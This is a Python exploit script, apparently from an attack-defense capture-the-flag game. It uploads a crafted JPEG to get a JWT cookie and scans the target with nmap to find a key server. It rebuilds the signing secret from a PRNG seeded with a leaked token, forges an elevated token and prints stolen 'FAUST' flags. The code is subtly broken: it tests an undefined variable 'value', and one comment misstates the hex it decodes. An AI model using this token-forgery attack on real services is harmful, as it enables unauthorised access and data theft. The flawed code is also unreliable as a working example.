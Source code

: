 ### Exploit
```py
...
def get_auth_cookie(title = "randomTitle", image = "image.jpg"):
    im = Image.new("RGB", (100, 100)) # Create a new image
    im.info["exif"] = piexif.dump({"0th": {270: bytes.fromhex("466c6f707079657469").decode('utf-8')}}) # "Floppyti" EXIF data

    imgByteArr = io.BytesIO() # Create a new byte array
    im.save(imgByteArr, format="JPEG", exif=im.info["exif"]) # Save the image to the byte array

    response = requests.post(f"http://[HOST]:5000/upload", data={"title": title}, files={"image": (image, imgByteArr.getvalue())}) # Upload the image to the server
    return response.cookies["auth"] # Return the auth cookie

def find_exploit_token(auth_uuid):
    result = subprocess.run(["nmap", "-6", "-sS", "-Pn", "-T5", HOST], capture_output=True) # Use nmap to find key server
    ports = re.findall(r"(\d+)/tcp\s+open", result.stdout.decode())
    ports = [int(port) for port in ports]
    for port in ports:
        try:
            response = requests.get(f"http://[{HOST}]:{port}/getToken/{auth_uuid}", timeout=0.1) # Try to request the token
            text = response.text
            if (text.startswith("[") and text.endswith("]\n")) or text.startswith("Not Found"):
                return text
        except Exception as exc:
            pass
    return None

auth_cookie = get_auth_cookie() # Get the auth cookie
auth = jwt.decode(auth_cookie,options={"verify_signature":False}) # Decode the auth cookie without verifying the signature
auth["level"] = 2 # Set the level to 2

token = find_exploit_token(auth["uuid"]) # Get the token from KeyServer
if value is None:
    print("App not running", flush=True) # Server not found protection
    sys.exit(1)


seed(int(value[2:-3])) # Seed with generated token from KeyServer
secret = randbytes(8)
encoded = jwt.encode(auth,secret,"HS256")

response = requests.get(f"http://[HOST]:5000/auth/collectIntel", cookies={"auth":encoded}) # Get the intel from the server
base64_strings = re.findall(r'([A-Za-z0-9+/]+={0,2})', response.text) # Find all base64 strings in the response

for base64_string in base64_strings:
    try:
        decoded = base64.b64decode(base64_string) # Decode the base64 string
        if b"FAUST" in decoded: # Check if the decoded string contains "FAUST"
            print(str(decoded), flush=True) # Print the decoded string
    except Exception as exc:
        pass
...
```
